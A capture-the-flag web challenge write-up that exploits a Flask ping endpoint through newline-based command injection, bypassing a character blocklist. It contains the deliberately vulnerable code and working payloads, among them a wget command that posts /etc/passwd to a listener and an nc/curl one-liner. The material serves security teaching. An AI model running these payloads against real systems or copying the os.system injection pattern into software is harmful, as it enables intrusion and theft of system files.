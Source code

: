 ```yaml
---
title: "CYBEX - TakitoChall [ WEB ]"
date: 2022-02-27T18:35:38-05:00
draft: false
---
```


## __Introduction__

The objective of this challenge is to get an RCE, specifically to get the output of the `cat /etc/passwd` command.

```python
from flask import Flask
from flask import request
from os import system

app = Flask(__name__)

@app.route('/')
def rce():
    ip = request.args.get('ip')

    if ip is None:
        return 'Please use ?ip=127.0.0.1'

    for char in '&;|$()`':
        if char in ip:
            return 'Character {} is blocked'.format(char)

    system('ping -c 1 '+ip)
    return 'Ping sent'

if __name__ == '__main__':
    app.run()
```

Before starting the analysis we can notice at a glance that a ping is performed to the address we set in the `ip` parameter.

## __First sight__

When analyzing the code we notice that in line 14 we have several banned characters such as `&;|$()` and `. This is logical since command injection payloads usually carry these characters, as we can see in the following [link](https://github.com/payloadbox/command-injection-payload-list).

Another option we could try would be to convert them to another format such as base64, unicode, hexadecimal and various conversions that would help us achieve what we are looking for.

## __Exploitation__

In this case we are dealing with a CRLF injection. If you want to know more about this type of web vulnerability you can do so by clicking on the following [link](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) which will redirect you to the official HackTricks website which has a very good review about this bug.

Once we know what we are dealing with, we can now crack the following code by typing in the `ip=` parameter the following payload:

```
%0Aid
```

![image](https://user-images.githubusercontent.com/88755387/154855417-06bf8edb-aff1-407d-8ded-8e92254209a0.png)

![image](https://user-images.githubusercontent.com/88755387/154855372-70dc930a-1785-4137-99f7-ccaaa5774058.png)

As we can see we have taken the output in the log which would be on the server side but what we are looking for is to print the output on the screen so that the client can view it.

With the following command and raising the port 443 we can get the output to our machine:

```
%0Awget --post-file=/etc/passwd 127.0.0.1:443
```

![image](https://user-images.githubusercontent.com/88755387/154859783-dcaae268-dd39-4616-afbc-63b40e775a54.png)

One line payload:

```
nc -lvp 443 & curl 127.0.0.1:5000/?ip=%0Awget%20--post-file=/etc/passwd%20127.0.0.1:443
```

I hope you enjoyed it! :D
